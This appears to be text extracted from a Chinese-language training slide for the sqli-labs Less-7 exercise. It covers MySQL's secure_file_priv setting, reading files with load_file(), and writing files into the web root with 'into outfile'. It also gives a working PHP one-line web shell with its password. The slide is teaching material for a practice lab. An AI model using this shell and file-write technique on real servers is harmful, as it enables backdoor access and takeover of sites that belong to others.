

# 补充基础知识
1. show variables like '%secure%';查看 secure-file-priv 当前的值，如果显示为NULL，则需要打开
C:\phpstudy\PHPTutorial\MySQL\my.ini文件，在其中加上一句：secure_file_priv=“/”。
2. 一句话木马：php版本：<?php @eval($_POST[“crow”]);?> 其中crow是密码
补充：
3. load_file()  读取本地文件  select load_file('C:\\phpstudy\\PHPTutorial\\WWW\\sqli\\Less-7\\test.txt’);
4. into outfile 写文件                                        用法： select 'mysql is very good' into outfile 'test1.txt‘;
                                                                              文件位置： C:\phpstudy\PHPTutorial\MySQL\data
  或者是select 'crow 666' into outfile 'C:\\phpstudy\\PHPTutorial\\WWW\\sqli\\Less-7\\test.txt’;
文件位置： C:\phpstudy\PHPTutorial\WWW\sqli\Less-7
注意事项： \\